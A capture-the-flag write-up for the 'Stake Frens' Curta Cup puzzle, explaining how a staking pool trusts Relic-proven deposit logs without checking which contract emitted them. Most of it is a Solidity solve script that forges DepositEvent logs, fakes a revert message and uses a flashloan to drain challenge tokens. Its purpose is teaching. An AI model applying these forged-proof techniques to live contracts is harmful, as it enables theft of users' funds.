 ```yaml
---
author: '0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149'
contributors: ['0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149']
adapted_from: 'https://github.com/chainlight-io/publications/tree/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/Stake%20Frens'
---
```


## Overview

This challenge is roughly based on an idea to use proofs of log emissions (using e.g. [Relic Protocol](https://docs.relicprotocol.com/)) from the [ETH2 deposit contract](https://etherscan.io/address/0x00000000219ab540356cbb839cbe05303d7705fa) to build a simple staking pool contract. The idea has a few flaws, but the implementation used in this challenge has a major flaw: the address which emitted the log is not validated to equal the deposit contract. As a result, an attacker can create a contract which emits a `DepositEvent` without actually requiring an ETH2 deposit.

To simplify the challenge and enable an atomic solution, the goal of the challenge is simply to convince a wrapper contract that the "deposit contract" reverted due to an impossible failure (ETH deposited is greater than $2^{64}$ gwei). Instead, the attacker's fake deposit contract can be writted to revert with this same message. This highlights that revert messages should almost never be used to infer an actual failure reason.

## Solving the puzzle

The attacker creates a contract which emits a fake `DepositEvent` matching the validation logic for some `FrenPool`. The `get_deposit_root()` method of this contract should be written to revert with the required message.

Once the crafted event is included on chain, the [Relic SDK](https://docs.relicprotocol.com/sdk/client-sdk/#proving-log-emissions) can be used to fetch a proof of this log emission, which can be passed to the `FrenPool` to perform the attack.

If the attack is performed correctly, 16 ETH is required to be passed to the contract, but it will all be returned to the attacker. As a result, a zero-fee flashloan can be used to perform this attack with minimal ETH requirements.

### Solve script

Check out our solve script below or [on GitHub](https://github.com/chainlight-io/publications/blob/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/Stake%20Frens/Solve.s.sol) for more details.

<Callout>
  **Note**: To simplify testing, our solve script includes some Foundry hacks for mocking out the
  Relic proofs. When performing the attack on-chain, these portions must be done in separate
  transactions using an actual proof constructed for Relic Protocol.
</Callout>

```sol fileName="Solve.s.sol"
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {IReliquary} from "relic-sdk/packages/contracts/interfaces/IReliquary.sol";
import {IProver} from "relic-sdk/packages/contracts/interfaces/IProver.sol";
import {Fact, FactSignature} from "relic-sdk/packages/contracts/lib/Facts.sol";
import {FactSigs} from "relic-sdk/packages/contracts/lib/FactSigs.sol";
import {CoreTypes} from "relic-sdk/packages/contracts/lib/CoreTypes.sol";
import {IDepositEvents, IDepositContract} from "../src/interfaces/IDepositContract.sol";
import {FrenPool} from "../src/FrenPool.sol";
import {StakeFrens} from "../src/StakeFrens.sol";
import {FrenCoin} from "../src/FrenCoin.sol";
import {RelicMock} from "./RelicMock.sol";
import {ETHFlashloan} from "./ETHFlashloan.sol";

contract FakeDepositContract is IDepositContract {
    function makeFakeDeposit(
        bytes calldata pubkey,
        bytes calldata withdrawal_credentials,
        bytes calldata amount,
        bytes calldata signature,
        bytes calldata index
    ) external {
        emit DepositEvent(
            pubkey,
            withdrawal_credentials,
            amount,
            signature,
            index
        );
    }

    function deposit(
        bytes calldata ,
        bytes calldata ,
        bytes calldata ,
        bytes32
    ) external payable {
        revert();
    }

    function get_deposit_count() external pure returns (bytes memory) {
        revert();
    }

    function get_deposit_root() external pure returns (bytes32) {
        revert("DepositContract: deposit value too high");
    }
}

contract Solver is ETHFlashloan {
    function callback(bytes calldata data) internal override {
        (
            FrenCoin coin,
            address creator,
            address prover,
            FrenPool.DepositProof memory proof
        ) = abi.decode(
                data,
                (FrenCoin, address, address, FrenPool.DepositProof)
            );
        coin.showFrenship{value: 16 ether}(creator, prover, proof);
    }

    function solve(
        FrenCoin coin,
        address creator,
        address prover,
        FrenPool.DepositProof calldata proof
    ) external payable {
        assert(msg.value == FLASHLOAN_FEE);
        flashLoan(16 ether, abi.encode(coin, creator, prover, proof));
        coin.transfer(msg.sender, coin.balanceOf(address(this)));
    }
}

contract Solve is RelicMock, Test, IDepositEvents {
    IReliquary constant RELIQUARY =
        IReliquary(0x5E4DE6Bb8c6824f29c44Bd3473d44da120387d08);
    address constant RELIC_MULTISIG =
        0xCCEf16C5ac53714512A5Acce5Fa1984A977351bE;
    address constant RELIC_LOG_PROVER =
        0xED12949e9a2cF4D86a2d0cF930247214Ea84aA4e;

    StakeFrens stakeFrens;
    FrenCoin frenCoin;

    constructor() RelicMock(RELIQUARY, RELIC_MULTISIG) {}

    function setup() public {
        stakeFrens = new StakeFrens();
        frenCoin = stakeFrens.frenCoin();
    }

    function to_little_endian_64(
        uint64 value
    ) internal pure returns (bytes memory ret) {
        ret = new bytes(8);
        bytes8 bytesValue = bytes8(value);
        // Byteswapping during copying to bytes.
        ret[0] = bytesValue[7];
        ret[1] = bytesValue[6];
        ret[2] = bytesValue[5];
        ret[3] = bytesValue[4];
        ret[4] = bytesValue[3];
        ret[5] = bytesValue[2];
        ret[6] = bytesValue[1];
        ret[7] = bytesValue[0];
    }

    function setupMockProof(
        FakeDepositContract fake
    ) internal returns (FrenPool.DepositProof memory proof) {
        bytes32[] memory topics = new bytes32[](1);
        topics[0] = DepositEvent.selector;
        bytes memory pubkey = new bytes(48);
        bytes memory withdrawal_credentials = stakeFrens.pools(address(this)).eth1WithdrawalCredentials();
        uint256 deposit_amount = 16 ether;
        DepositEventData memory deposit = DepositEventData(
            pubkey,
            withdrawal_credentials,
            to_little_endian_64(uint64(deposit_amount / 1 gwei)),
            new bytes(96),
            ""
        );
        CoreTypes.LogData memory log = CoreTypes.LogData(
            address(fake),
            topics,
            abi.encode(deposit)
        );
        bytes memory data = abi.encode(log);
        FactSignature sig = FactSigs.logFactSig(0, 0, 0);
        Fact memory fact = Fact(address(fake), sig, data);
        proof = FrenPool.DepositProof(0, 0, 0, bytes32(0), mockProof(fact));
    }

    function getMockProverAndProof(
        FakeDepositContract fake
    ) internal returns (address prover, FrenPool.DepositProof memory proof) {
        prover = setupMockProver();
        proof = setupMockProof(fake);
    }

    function getRealProverAndProof(
        FakeDepositContract fake
    ) internal returns (address prover, FrenPool.DepositProof memory proof) {
        prover = RELIC_LOG_PROVER;

        bytes memory pubkey = new bytes(48);
        bytes memory withdrawal_credentials = stakeFrens.pools(address(this)).eth1WithdrawalCredentials();
        uint256 deposit_amount = 16 ether;

        // we should broadcast this
        fake.makeFakeDeposit(
            pubkey,
            withdrawal_credentials,
            to_little_endian_64(uint64(deposit_amount / 1 gwei)),
            new bytes(96),
            ""
        );
        // TODO: fetch relic proof and finish attack
    }

    function solve() internal {
        stakeFrens.createPool();
        FakeDepositContract fake = new FakeDepositContract();
        (
            address prover,
            FrenPool.DepositProof memory proof
        ) = getMockProverAndProof(fake);
        Solver solver = new Solver();
        solver.solve{value: solver.FLASHLOAN_FEE()}(frenCoin, address(this), prover, proof);
        uint256 seed = stakeFrens.generate(address(this));
        uint256 amount = uint256(uint128(uint256(keccak256(abi.encode(seed)))));
        uint256 balance = frenCoin.balanceOf(address(this));
        require(balance > amount, "amount too small");
        frenCoin.transfer(address(1), balance - amount);
        require(stakeFrens.verify(seed, amount), "challenge not solved");
    }

    function test() public {
        vm.createSelectFork("mainnet");
        setup();
        solve();
    }
}
```
